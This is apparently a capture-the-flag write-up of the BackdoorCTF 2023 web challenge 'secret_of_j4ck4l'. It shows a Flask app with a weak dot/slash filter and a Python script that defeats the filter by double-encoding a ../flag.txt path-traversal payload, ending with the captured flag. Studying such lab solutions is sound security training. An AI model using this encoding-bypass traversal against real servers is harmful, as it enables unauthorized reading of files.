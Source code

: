```yaml
---
title: 2023 BackdoorCTF - secret_of_j4ck4l
author: thanguyen165
date: 2023-12-18 00:00:00 +0700
categories: [Write-ups, 2023_BackdoorCTF]
tags: [Web Exploitation, Path traversal]
---
```


* 326 solves / 237 points
* Author: j4ck4l

## Description

> I left a message for you. You will love it definitely
> [http://34.132.132.69:8003/](http://34.132.132.69:8003/)

## Attached

```py
from flask import Flask, request, render_template_string, redirect
import os
import urllib.parse

app = Flask(__name__)

base_directory = "message/"
default_file = "message.txt"

def ignore_it(file_param):
    yoooo = file_param.replace('.', '').replace('/', '')
    if yoooo != file_param:
        return "Illegal characters detected in file parameter!"
    return yoooo

def another_useless_function(file_param):
    return urllib.parse.unquote(file_param)

def url_encode_path(file_param):
    return urllib.parse.quote(file_param, safe='')

def useless (file_param):
    file_param1 = ignore_it(file_param)
    file_param2 = another_useless_function(file_param1)
    file_param3 = ignore_it(file_param2)
    file_param4 = another_useless_function(file_param3)
    file_param5 = another_useless_function(file_param4)
    return file_param5


@app.route('/')
def index():
    return redirect('/read_secret_message?file=message')

@app.route('/read_secret_message')
def read_file(file_param=None):
    file_param = request.args.get('file')
    file_param = useless(file_param)
    print(file_param)
    file_path = os.path.join(base_directory, file_param)

    try:
        with open(file_path, 'r') as file:
            content = file.read()
        return content
    except FileNotFoundError:
        return 'File not found! or maybe illegal characters detected'
    except Exception as e:
        return f'Error: {e}'


if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=4053)

```
{: file="app.py" }

## Analyzation

Make a path traversal and we got the flag.

```
http://34.132.132.69:8003/read_secret_message?file={payload}
```

But the payload has to pass the filter

```py
def ignore_it(file_param):
    yoooo = file_param.replace('.', '').replace('/', '')
    if yoooo != file_param:
        return "Illegal characters detected in file parameter!"
    return yoooo

def another_useless_function(file_param):
    return urllib.parse.unquote(file_param)

def url_encode_path(file_param):
    return urllib.parse.quote(file_param, safe='')

def useless (file_param):
    file_param1 = ignore_it(file_param)
    file_param2 = another_useless_function(file_param1)
    file_param3 = ignore_it(file_param2)
    file_param4 = another_useless_function(file_param3)
    file_param5 = another_useless_function(file_param4)
    return file_param5
```

- ```ignore_it(file_param)``` detects dot and slash. But it can be passed by encoding to ```%2e``` and ```%2f```.

- ```another_useless_function(file_param)``` unquote the url. But double encoding works fine: ```%2e``` to ```%252e```.

## Solution

```py
import requests

URL = "http://34.132.132.69:8003/read_secret_message?file={}"

query = "%2e%2e%2fflag%2etxt"
for i in range(3):
    for j in range(i):
        query = query.replace("%", "%25")
        response = requests.get(URL.format(query))
        print(response.text)
```

The flag is
```
flag{s1mp13_l0c4l_f1l3_1nclus10n_0dg4af52gav}
```